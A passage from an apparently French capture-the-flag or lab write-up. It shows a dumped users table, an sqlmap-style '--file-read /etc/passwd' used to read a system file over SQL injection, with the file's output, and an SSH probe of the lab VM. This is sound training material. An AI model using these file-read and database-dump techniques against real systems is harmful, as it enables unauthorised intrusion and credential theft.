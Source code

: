 Dans la base on trouve une table contenant des utilisateurs mais ça ne me dit pas où les utiliser à ce stade.

```
Database: news_db
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | password1 | user1    |
| 2  | password2 | user2    |
+----+-----------+----------+
```

Je suis donc passé sur la lecture des fichiers, par exemple avec `--file-read /etc/passwd`.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
_rpc:x:106:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:107:65534::/var/lib/nfs:/usr/sbin/nologin
tftp:x:108:112:tftp daemon,,,:/srv/tftp:/usr/sbin/nologin
mysql:x:110:115:MySQL Server,,,:/nonexistent:/bin/false
he110wor1d:x:1001:1001::/home/he110wor1d:/bin/bash
```

On serait tenté de brute-forcer le compte utilisateur mais une tentative SSH montre que l'authentification se fera uniquement par clé:

```console
$ ssh he110wor1d@192.168.56.102
he110wor1d@192.168.56.102: Permission denied (publickey).
```
